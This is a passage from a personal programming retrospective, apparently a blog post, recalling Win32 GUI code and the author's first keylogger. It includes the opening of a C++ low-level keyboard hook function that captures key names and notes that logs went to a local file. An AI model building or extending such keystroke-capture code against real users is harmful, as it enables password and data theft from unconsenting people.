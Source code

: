 ```
DeleteObject (BMMem);
DeleteDC (DCMem);
DeleteObject (brush);
DeleteObject (pen);
DeleteObject (font);
ReleaseDC (this->button_wnd, DC);
```

One of these had to be defined for every distinct component in the applications above, along with all their message handlers, and so on. Annoying, right?

### Keylogger

> "Motivation is the key to success."\
> \- Someone not talking about stealing passwords, probably.

Knowing that moving forward with GUIs was a very tedious option, I looked to the other cool things I could do with programming. Viruses are pretty cool too. Here's my first attempt of a keylogger.

![keylogger](assets/create/emilia/keylogger.gif)
*Demonstration of the keylogger, which saves its log to a local file `hi.txt`.*

I've attached a snippet of the beginning of the low-level keyboard hook function code below.

```
__declspec(dllexport) LRESULT CALLBACK handlekeys(int code, WPARAM wp, LPARAM lp)
{
    if (code == HC_ACTION && (wp == WM_SYSKEYDOWN || wp == WM_KEYDOWN)) {
        static bool capslock = false;
        static bool shift = false;
        char tmp[0xFF] = {0};
        std::string str;
        DWORD msg = 1;
        KBDLLHOOKSTRUCT st_hook = *((KBDLLHOOKSTRUCT*)lp);
        bool printable;

        /*
         * Get key name as string
         */
        msg += (st_hook.scanCode << 16);
        msg += (st_hook.flags << 24);
        GetKeyNameText(msg, tmp, 0xFF);
        str = std::string(tmp);
```

There's a bunch of Windows macros as well as fixed-width redefinitions of C++ types (`DWORD` is a 4-byte unsigned integer, I believe). The function, hooked into a low-level keyboard hook, would be called when any key was pressed (almost, unless another hook is below this one, like when Task Manager starts).

I had no idea what this code did back then. It was just a mishmash of hacks I found online. The full application actually ended up working - the only problem was that it stored all the logged keys on a local file.
